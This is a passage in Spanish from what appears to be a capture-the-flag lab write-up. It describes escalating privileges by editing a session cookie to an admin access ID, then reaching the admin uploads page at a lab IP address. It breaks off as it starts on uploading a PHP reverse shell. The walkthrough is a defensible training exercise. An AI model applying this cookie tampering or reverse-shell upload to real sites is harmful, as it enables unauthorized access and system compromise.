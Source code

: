 📌 **Access ID del admin:** `34322`

## 🍪 Modificación de cookies para escalar privilegios

Desde las herramientas de desarrollo (F12), cambiamos la cookie `user=2233` a `user=34322`, manteniendo `role=guest`.

![](../img/ae2a3c5d75be4d7815e2fd72e3354d98.png)

Al refrescar la página y acceder a la sección `Uploads`:

```bash
http://10.129.108.161/cdn-cgi/login/admin.php?content=uploads
```

![](../img/b6f8779c11a606f0d8e0e96f0b7f74a0.png)

¡Accedemos con privilegios suficientes!

## 💣 Subida de reverse shell y ejecución remota

Seleccionamos el archivo `php-reverse-shell.php` ubicado en:
